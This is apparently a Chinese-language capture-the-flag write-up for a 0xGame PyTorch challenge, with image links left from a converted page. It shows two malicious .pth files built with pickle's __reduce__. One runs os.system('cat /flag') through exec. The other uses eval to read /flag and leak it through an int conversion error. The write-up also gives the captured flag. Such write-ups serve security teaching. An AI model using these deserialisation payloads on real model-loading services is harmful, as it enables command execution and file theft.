



# hd_pytorch?


随便传个模型上去：



考虑反序列化攻击。用 Python 定义一个类，然后在内部定义 `__reduce__()` 方法，用于指导生成序列化的对象在反序列化时的操作。hint 提到了 flag 在根目录下。

```python
import torch

class GetFlag:
    def __reduce__(self):
        return (exec, ('import os; os.system("cat /flag")', ))

torch.save(GetFlag(), "get_flag.pth")
```

生成的 `get_flag.pth` 文件上传：



还不给过。可能是 `exec` 太敏感了，考虑用 `eval` 传一个表达式上去，用 Python 自己的接口打开并读取 `/flag` ，然后把读取的 flag 字符串强转为 `int` ，这样一来 Python 解释器就会报错说这个 flag 字符串不能强转：

```python
import torch

class GetFlag:
    def __reduce__(self):
        return (eval, ('int(open("/flag").read())', ))


torch.save(GetFlag(), "get_flag_1.pth")
```

上传：



给过了，得到 flag 为 `0xGame{93819791-699e-402f-8d18-65b6a4b2cb7c}` 。